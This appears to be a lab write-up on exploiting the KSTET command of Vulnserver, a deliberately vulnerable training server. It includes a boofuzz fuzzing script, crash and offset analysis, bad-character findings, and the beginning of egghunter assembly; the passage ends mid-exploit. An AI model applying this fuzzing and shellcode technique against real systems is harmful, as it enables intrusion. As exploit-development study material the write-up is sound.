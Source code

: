 # Vulnserver: KSTET Command

In this exercise we will be exploring Vulnserver's `KSTET` command.  

## Fuzz
We begin by using the same fuzzing script we've used previously:
```
#!/usr/bin/env python

from boofuzz import *

def main():
    c = SocketConnection("192.168.186.135", 9999, proto='tcp')
    t = Target(connection = c)
    s = Session(target=t)

    s_initialize(name="Request")

    with s_block("UA-Line"):
        s_string("KSTET", fuzzable=False)
        s_delim(" ", fuzzable=False, name='space-4')
        s_string("test", name='kstet-value')
        s_static("\r\n", "Request-CRLF")

    s.connect(s_get("Request"))

    s.fuzz()

if __name__ == "__main__":
    main()
```

We note that Vulnserver almost immediately crashes; the fuzzer identifies the
offending buffer as being 5,015 bytes long.  

## Crash
After confirming the crash with our own buffer, we pass a pattern string of
length 5,000.  The response is curious: the pattern in `EIP` is found at 
offset 70.  After further testing, we realize that we have a total of around 
105 bytes to work with before our input is truncated.  This is hardly enough 
space to do anything meaningful; the most compact Windows reverse shell is more 
than double that, and we'd still have to account for the jump over byte 70 as 
well as any character restrictions we identify.  

Fortunately, the only characters we find we need to avoid are \x00 and \x0a.  

## Buffer
Digging deeper, we find that we have enough room in our 70-byte buffer to
execute an egghunter:
```
[BITS 32]
mov esp, ebp
xor edx, edx
or dx,0xfff
inc edx
push edx
push byte +0x2
pop eax
int 0x2e
cmp al,0x5
pop edx
jz 0x4
```